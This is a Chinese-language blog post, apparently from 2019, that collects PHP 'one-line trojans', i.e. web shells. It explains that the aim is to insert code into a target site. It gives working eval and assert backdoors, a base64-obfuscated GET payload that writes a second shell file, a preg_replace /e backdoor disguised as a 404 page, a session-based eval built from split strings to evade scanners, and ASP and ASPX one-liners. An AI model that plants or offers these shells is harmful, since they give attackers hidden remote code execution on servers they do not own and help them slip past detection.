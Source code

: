 ﻿---
layout:     post
title:      PHP一句话木马整理
subtitle:   
date:       2019-04-03
author:     BY
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
    - 漏洞
---

>如果我们通过客户端向服务器发送被执行内容，那么就会让服务器执行我们发送的脚本，挂马就实现了。想尽办法给目标网站插入这么一段会被储存起来的语句。可以是一个单独的脚本文件文件（.asp 、.php、.aspx ），或者是隐藏在某些网页下的文件、代码等。其中的value 就是客户端要发送的内容，然后通过客户端与服务器建立连接，发送控制脚本。

## PHP  
PHP有一些危险的使用方式比如**eval**、**assert**和正则匹配的**e模式**以及**include**函数
```PHP
<?php @eval($_POST['pass']);?>
```
通过构建php表单pass，执行里面的语句
```PHP
 < ?php assert ($_POST(value));?>
```
bool assert ( mixed $assertion [, Throwable $exception ] )
assert() 会检查指定的 assertion 并在结果为 FALSE 时采取适当的行动。
如果 assertion 是字符串，它将会被 assert() 当做 PHP 代码来执行。

  
### 变形
来自[https://my.oschina.net/programs/blog/1649544](https://my.oschina.net/programs/blog/1649544)
```PHP
<?php $_GET['a']($_POST['b'])?>

?a=assert&b=${fputs%28fopen%28base64_decode%28Yy5waHA%29,w%29,base64_decode%28PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz4x%29%29};
```
通过对GET请求的URL构造而形成利用，左括号和右括号是URL编码，解码回来如下：  
```PHP
?a=assert&b=${fputs(fopen(base64_decode(Yy5waHA),w),base64_decode(PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz4x))};
```
PHP接收到GET请求后相当于执行一个assert函数，并把b作为assert的参数。b里面使用略php的base64解码函数，把部分信息通过base64编码而绕过扫描，解码后如下：
```PHP
?a=assert&b=${fputs(fopen(c.php,w),<?php @eval($_POST[c]); ?>1)};
```
### 利用e模式
正则表达式中的/e模式的作用是将替换串中的内容当作代码来执行，/e模式是php语言才有的，除此之外还有/i（不区分大小写）等。比如：
```PHP
$precision = 2;
$subject = '看完《php从入门到精通》需要33.123456小时';
$str = preg_replace('/([\d|\.]+)/e', 'round($1, '.$precision.')', $subject);
echo $str;
//运行结果为：看完《php从入门到精通》需要33.12小时。即：33.123456被替换为round(33.123456, $precision)。
```
其中$1表示第一次匹配成功的部分。 
可以利用这个写到404页面。
```PHP
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html>
	<head>
		<title>404 Not Found</title>
	</head>
	<body>
		<h1>Not Found</h1>
		<p>The requested URL was not found on this server.</p>
	</body>
</html>
<?php
	@preg_replace("/[pageerror]/e",$_POST['error'],"saft");
	header('HTTP/1.1 404 Not Found');
?>
```
### 利用session
利用$_SEESION变量来绕过扫描，将$_POST['code']赋值给$_SESSION['theCode']，然后eval执行SESSION的内容。eis分别为eis三种模式，e仍然为执行模式。  
```PHP
<?php

    session_start();
    $_POST['code'] && $_SESSION['theCode'] = trim($_POST['code']);
    $_SESSION['theCode'] && preg_replace('\'a\'eis','e'.'v'.'a'.'l'.'(base64_decode($_SESSION[\'theCode\']))','a');

```
## 其他

```PHP
/*asp一句话木马*/
<%execute(request("value"))%>

/*aspx一句话木马*/
<%@ Page Language="Jscript"%>
<%eval(Request.Item["value"])%>

```